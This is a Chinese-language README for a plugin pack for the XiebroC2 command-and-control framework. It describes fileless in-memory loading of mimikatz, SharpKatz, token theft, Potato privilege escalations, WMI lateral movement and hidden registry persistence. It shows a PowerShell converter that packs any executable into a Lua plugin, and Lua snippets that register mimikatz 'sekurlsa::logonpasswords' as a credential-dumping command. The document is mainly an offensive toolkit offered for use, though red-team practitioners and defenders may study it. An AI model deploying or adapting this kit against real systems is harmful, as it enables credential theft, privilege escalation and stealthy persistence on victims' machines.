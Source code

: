 





## 使用

```
git clone https://github.com/INotGreen/Xiebro-Plugins.git
```

Manage->Plugins->Load，加载main.lua即可

载入Sesion中你会得到更多得命令

![image-20240818163749325](Image/image-20240818163749325.png)



项目持续进行中。。。。

## 工具

目前已经扩展下面的工具,全部采用无文件落地的方式进行内存加载

|                           工具                           |                             描述                             |
| :------------------------------------------------------: | :----------------------------------------------------------: |
|       [fscan](https://github.com/shadow1ng/fscan)        |      内网综合扫描工具，方便一键自动化、全方位漏扫扫描。      |
|    [mimikatz](https://github.com/gentilkiwi/mimikatz)    |      从内存中提取明文密码、哈希、PIN 码和 Kerberos 票证      |
|    [RegHide](https://github.com/outflanknl/SharpHide)    |                     添加隐藏注册表启动项                     |
|     [SharpKatz](https://github.com/b4rtik/SharpKatz)     |          mimikatz的C#版本，用于获取明文密码和dcsync          |
|   [SharpScan](https://github.com/INotGreen/SharpScan)    | 内网资产收集、探测主机存活、端口扫描、域控定位、文件搜索、密码爆破和账号枚举 |
| [SharpToken](https://github.com/BeichenDream/SharpToken) |  Token窃取，切换System和administrator权限，用于提权降权场景  |
|    [SweetPotato](https://github.com/CCob/SweetPotato)    |                 将服务器权限提升至System权限                 |
|    [SharpWMI](https://github.com/QAX-A-Team/sharpwmi)    |      基于135端口的横向移动工具，可以执行命令，上传文件       |
|  [BadPotato](https://github.com/BeichenDream/BadPotato)  |                 将服务器权限提升至System权限                 |
|  [GodPotato](https://github.com/BeichenDream/GodPotato)  |                 将服务器权限提升至System权限                 |





XiebroC2的插件做到极度的简洁化，几乎使用一行代码你就可以为它添加一个外部命令

用Convert.ps1脚本可以直接将C/C++/Go/rust/.net/Bin等PE直接转成lua脚本

```powershell
Import-Module .\Convert.ps1
```

```powershell
Convert-ExeToBase64Lua -i "C:\Users\admin\Desktop\mimikatz.exe" -o "mimikatz.lua" -Command "Mimikatz" -LoadModule "inline-execute" -Description "Get windows password credentials" -Usage "Mimikatz <args>"
```



```lua
AddCommand_W(
    "mimikatz",
    mimikatz,
    "inline-execute",
    "Get password credentials on windows",
    "mimikatz <args>"
);
```



```lua
AddCommand_A(
    "logonpasswords",                                      --命令名称
     mimikatz,                                            --Base64Compress
    "privilege::debug sekurlsa::logonpasswords exit",      --exe的参数
    "inline-execute",                                      --加载模式
    "Get password credentials on windows",                 --命令描述
    "logonpasswords"                                       --使用方法
);
```



这里的LoadModule(加载模式)有四种

```lua
inline-execute           --内联加载C/C++/go/rust的exe文件
inline-execute-bin           --内联加载C/C++/go/rust的bin文件
inline-assembly	         --内联加载.net文件
execute-assembly         --Fork&&Run模式(创建子进程)进行内存加载.net文件
```

